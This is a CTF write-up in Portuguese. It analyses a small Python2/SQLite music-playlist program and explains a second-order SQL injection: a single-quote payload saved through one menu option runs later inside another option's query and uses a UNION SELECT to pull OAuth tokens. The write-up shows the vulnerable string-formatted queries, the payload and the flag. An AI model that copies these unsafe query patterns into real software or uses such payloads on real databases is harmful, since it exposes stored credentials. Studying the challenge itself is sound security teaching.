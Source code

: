 ## [NOT USED IN THE CTF] Chall 08 - Bolos e tokens (made by Guerra - PInG 2020)

**Flag:** `Ganesh{Th3_c@K3_i5_4_L!3}`

Neste chall somos presenteados com um mini programa feito em python2 e SQLite3 que permite ao usuário 4 ações simples, sendo elas:

1. Cadastrar uma nova música na tabela media
2. Buscar músicas de um dado artista.
3. Buscar músicas por um título de busca.
4. Tocar as músicas de um artista escolhido de forma aleatória no banco.

A primeira coisa a se fazer em um cenário que já temos o script em mãos é analisar calmamente as possíveis vulnerabilidades em cada uma delas. Então por partes...

```:::python
if choice == '1':
    my_print("Enter the artist name:")
    artist = raw_input().replace('"', "")
    
    my_print("Enter the song name:")
    song = raw_input().replace('"', "")

    c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```

A opção 1 permite que nós cadastremos uma nova linha da tabela de músicas. Vemos também que há um replace que impede a inserção de aspas duplas na query. Ela, portanto, não seria vulnerável à injeções do tipo `" OR 1=1 ... --`. 

```:::python
elif choice == '2':
    my_print("Enter the  artist name:")
    artist = raw_input().replace("'", "")

    print_playlist("""SELECT artist, song FROM media WHERE artist = '{}'""".format(artist))
```

A opção 2, assim como a 1, apresenta uma Query de busca que possui um tratamento. Esse cenário no entanto faz o tratamento de aspas simples ao invés das duplas.

```:::python
elif choice == '3':
    my_print("Enter the song name:")
    song = raw_input().replace("'", "")

    print_playlist("""SELECT artist, song FROM media WHERE song = '{}'""".format(song))
```

Similar à opção 2, novamente uma query de buscar porém tratando apenas as entradas com aspas simples.


```:::python
elif choice == '4':
    artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
    my_print("Choosing songs from '{}'".format(artist))

    print_playlist("""SELECT artist, song FROM media WHERE artist = '{}'""".format(artist))
```

Por fim, a quarta string busca um nome de artista de maneira aleatória do banco e, sem nenhuma etapa de tratamento, utiliza o dado recebido para construir outra query de busca pelas músicas.

A primeira vista, a impressão que podemos ter é a de que todas as querys estão seguras, uma vez que o criador do script preocupou-se de garantir que não seria possível inserir um fechamento de aspas em todas as opções que ocorrem inputs.

Uma das falhas dele, no entanto, foi não padronizar as aspas utilizadas nas diferentes querys do programa, permitindo ao usuário cadastrar strings com aspas simples na primeira opçao.

Vamos então cadastrar um artista e uma música com o seguinte payload:

```
$ Enter the artist name:
$ ' UNION SELECT oauth_token, 'abc' FROM $ oauth_tokens --
$ Enter the song name:
$ nao importa
```

Pronto! Já temos agora nosso injection cadastrado no banco. Vamos analisar então as outras 3 opções restantes.

A opção 2 não nos permite fazer nada, pois não conseguiriamos buscar nosso último cadastro no banco devido ao replace da aspas simples.

A opção 3 permite buscar o dado pelo nome da música. Esse resultado, no entanto, é utilizado apenas para ser exibido na tela e também não nos ajuda.

Já a opção 4, como já foi citado, escolhe um artista no banco e o utiliza para fazer uma segunda query, e é ele que será o responsável por executar nosso payload.

Caso não tenha ficado 100% claro, basta ver que a variável artistas será carregada com o único artista do banco

```:::python
artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
artist = "' UNION SELECT oauth_token, 'abc' FROM oauth_tokens -- "
```

e ao concatenar esse valor na query seguinte, teremos um select com um **Union Atack**

```:::sql
SELECT artist, song 
    FROM media 
    WHERE artist = '' 
    UNION SELECT oauth_token, 'abc' 
    FROM oauth_tokens -- '
```

Com isso somos então presentados com a nossa flag

```
== New Playlist ==
1) Song: "abc" - Artist: "Ganesh{Th3_c@K3_i5_4_L!3}"
```

